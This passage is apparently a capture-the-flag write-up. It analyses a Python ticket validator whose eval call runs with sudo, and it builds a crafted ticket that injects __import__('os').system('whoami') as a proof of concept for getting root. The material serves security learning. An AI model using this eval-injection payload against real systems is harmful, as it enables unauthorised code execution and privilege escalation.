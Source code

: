 ```
def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

*	0   >> Open a file with the extension .md
*	1   >> First line of the file needs to be **# Skytrain Inc**
*	2   >> Second line needs to start with **## Ticket to** followed by some string
*	3   >> Third line is only **__Ticket Code:__**
*	4a  >> Fourth line begins and ends with **
*	4b  >> Fourth line contains at least two numbers separated by **+**
*	4c  >> First number of that series must have a remainder of 4 after modulo 7
*	4d  >> Checks if the next number is over 100 with eval

<br>
We'll start by making a ticket to see if I understand how to pass through the script, specifically to that eval function.

```
# Skytrain Inc
## Ticket to Trashtown
__Ticket Code:__
**11+101+0**
```

```bash
development@bountyhunter:~$ nano trash.md 
development@bountyhunter:~$ python3 /opt/skytrain_inc/ticketValidator.py 
Please enter the path to the ticket file.
./trash.md
Destination: Trashtown
Valid ticket.
```

<h2>Python Sandbox Escape</h2>

Excellent, now for our exploit. That eval function can be used to run python code from the script, and since we can run it with sudo we can get a root shell with it. I'll try to use **whoami** as a test to confirm my suspicions and create a proof of concept that I can change. 

```
# Skytrain Inc
## Ticket to Trashtown
__Ticket Code:__
**11+__import__('os').system('whoami')+0**
```
